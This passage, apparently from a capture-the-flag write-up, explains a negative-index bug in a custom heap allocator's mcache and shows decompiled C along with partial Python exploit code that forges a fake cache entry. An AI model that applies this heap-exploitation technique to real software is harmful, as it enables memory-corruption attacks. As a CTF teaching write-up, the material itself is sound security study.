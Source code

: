 If I expand the macros, the bug becomes more obvious:

```c
__int64 *mmalloc(int user_sz) { // 0 <= user_sz <= 0xfff
  int chunk_sz = (-user_sz&0xf)+user_sz+0x10; // 0x10 <= chunk_sz <= 0x1010 
  if ( chunk_sz < 0 )  /* { ... } ignore */
  int midx = (chunk_sz>>4)-2; // -1 <= midx <= 0xff
  if ( midx <= 0x17 && mound_arena.mcache->entries[midx] ) // possible negative index here!!!
    return mcache_alloc(user_sz);
  return top_chunk_alloc(user_sz);
}
```

As a reminder, the `mcache` is structured like this:

```c
typedef struct mcache_struct {
    uint8_t counts[MCACHE_MAX_BINS];
    mcache_entry *entries[MCACHE_MAX_BINS];
}
```

`mcache->entries[-1]` _really_ refers to `mcache->counts[0x10:0x18]`. By filling up the `mcache` bins for `0x120 <= chunk_sz < 0x1a0`, we can get `mcache->entries[-1]` to point to **any arbitrary location**.

The subsequent call to `mmalloc_alloc(0)` has a small safety check, as I showed earlier in the flowchart:

```c
__int64 *mcache_alloc(int user_sz) { // user_sz = 0
  mcache_struct *mcache_ = mcache;  // [rsp+30h] [rbp-10h]
  int midx = csize2midx(request2size(user_sz)) // midx = -1, [rsp+2Ch] [rbp-14h]
  mcache_entry *e = mcache->entries[midx];  // [rsp+20h] [rbp-20h]
  mcache->entries[midx] = (mcache_entry *)e->fd;
  --mcache_->counts[midx];
  if ( mcache_ != (mcache_struct *)e->mcache ) { // ! need to ensure that (void*)entries[-1][2] == mcache
    puts("Mcache: Invalid verify");
    exit(1);
  }
  e->fd = e->mcache = 0LL;
  remove_id(e->id);
  return &e->mcache;
}
```

This effectively means that `mcache->entries[-1]` needs to point to a known region of user-controlled data, like the mound. I'll use this bug to allocate a fake chunk with a valid mcache size.

```python
def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=0xbeef0000010):
    if rid is None: rid = r64()
    return fit(rid, sz, mcache, fd)
add(0x20, 0, fake_mcache_entry(0x100))
add(1, 1, b'a') # chunk to be overflowed
fake_mcache_addr = 0xbeef0000100
for i,b in enumerate(pack(fake_mcache_addr)):
    chunk_sz = 0x120+i*0x10
    user_sz = chunk_sz - 0x10
    # TODO: how to get b > 0xf?
    for i in range(b): add(user_sz, 0xf-i, b'garbage')
    for i in range(b): free(0xf-i)
add(0, 2, b'') # trigger bug
free(0)
```

